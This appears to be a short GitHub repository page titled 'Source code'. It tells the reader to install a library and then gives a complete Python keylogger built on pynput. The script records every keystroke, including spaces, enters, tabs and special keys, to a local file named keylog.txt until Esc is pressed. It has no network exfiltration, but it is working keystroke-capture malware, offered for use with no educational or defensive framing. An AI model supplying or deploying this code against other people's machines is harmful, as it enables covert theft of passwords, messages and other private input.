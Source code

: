 INSTALL NECESSARY LIBRARY
![image](https://github.com/user-attachments/assets/98f64177-90c6-4f78-8161-cdfa741b632e)

CODE

    from pynput.keyboard import Key, Listener


    log_file = "keylog.txt"
    
    def on_press(key):
      with open(log_file, "a") as log:
        try:
            log.write(f"{key.char}")
        except AttributeError:
            if key == Key.space:
                log.write(" ")
            elif key == Key.enter:
                log.write("\n")
            elif key == Key.tab:
                log.write("\t")
            else:
                log.write(f" [{key}] ")
    
    def on_release(key):
    
      if key == Key.esc:
        return False
    
    
    with Listener(on_press=on_press, on_release=on_release) as listener:
        print("Keylogger started. Press 'Esc' to stop.")
        listener.join()
